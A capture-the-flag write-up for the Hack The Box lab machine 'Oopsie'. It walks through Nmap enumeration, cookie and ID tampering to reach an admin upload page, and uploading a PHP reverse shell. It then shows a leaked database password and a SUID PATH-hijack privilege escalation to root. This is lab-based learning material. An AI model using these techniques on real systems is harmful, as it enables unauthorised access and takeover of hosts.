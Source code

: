 # [OK] - Oopsie

| Difficult: | Easy |
| --- | --- |
| OS: | Linux |
| Last edit: | 26/06/22 |

## Enumeration

The first task was collect information from the target. So, we execute the Nmap to collect the ports and services running in the target.

```bash
nmap -sV -sC 10.129.108.33 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-26 14:34 EDT
Nmap scan report for 10.129.108.33
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
**22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)**
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
**80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))**
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Access the web page on port 80/TCP via Web Browser:

![Untitled](pics/Untitled.png)

We will use the BurpSuite a proxy to intecept requests. With BurpSuite we identify a new path ‘/cdn-cgi/login/’ that access a login page.  Using the optin “Login as Guest”, we access the application with limitations. Navigating through the menu the update option calls attention. But the upload option is only available for the admin user.  Maybe if we bypass this rule, the upload function might be available.

![Untitled](pics/Untitled%201.png)

We need to find a way to escalate our privileges from user Guest to super admin role. One way to try this is by checking if cookies and sessions can be manipulated. As one can observe, there is
a role=guest and user=2233 which we can assume that if we somehow knew the number of super
admin for the user variable, we might be able to gain access to the upload page.

We check the URL on our browsers bar again where there is an id for every user:
[http://10.129.108.33/cdn-cgi/login/admin.php?content=accounts&id=2](http://10.129.108.33/cdn-cgi/login/admin.php?content=accounts&id=2)

![Untitled](pics/Untitled%202.png)

Change id 2 to 1 in URL, we have…

[http://10.129.108.33/cdn-cgi/login/admin.php?content=accounts&id=1](http://10.129.108.33/cdn-cgi/login/admin.php?content=accounts&id=1)

We found the “Admin User Acesses ID”, then we change this information on cookie to get the behavior when access the Upload menu again.

![Untitled](pics/Untitled%203.png)

The upload option is active. We will upload a reverse shell PHP. You can download here:

[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![Untitled](pics/Untitled%204.png)

Using a Netcat opened port, we received the reverse shell from the application.

![Untitled](pics/Untitled%205.png)

We got a reverse shell! In order to have a functional shell though we can issue the following

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
www-data@oopsie:/var/www/html/cdn-cgi/login$ cat db.php
cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

![Untitled](%5BOK%5D%20-%20Oopsie%2028dcc962f95c4facb242b70d6ce9d6ec/Untitled%206.png)

The user Robert is part of the group ***bugtracker*** . Let's try to see if there is any binary within
that group:

```bash
find / -group bugtracker
```

We found a file named ***bugtracker*** with SUID enable. This is GREAT!!

![Untitled](%5BOK%5D%20-%20Oopsie%2028dcc962f95c4facb242b70d6ce9d6ec/Untitled%207.png)

When we run the file ***bugtracker*** we notice that the cat command is used to display a file in a certain in the report directory. But not this cat command makes use of the environment variable to locate the executable. So our task here is to change the cat environment variable to point to an executable containing a shell.

```bash
# Create new file cat with shell
echo '/bin/sh' > /tmp/cat

# Set execution permission
chmod +x /tmp/cat

# Set /tmp to environment variable
set PATH=/tmp:$PATH

# Execute ***bugtracker again
bugtracker***
```

Now we have a shell and can see the flag in:

`/bin/cat /root/flag.txt`

End!!tks
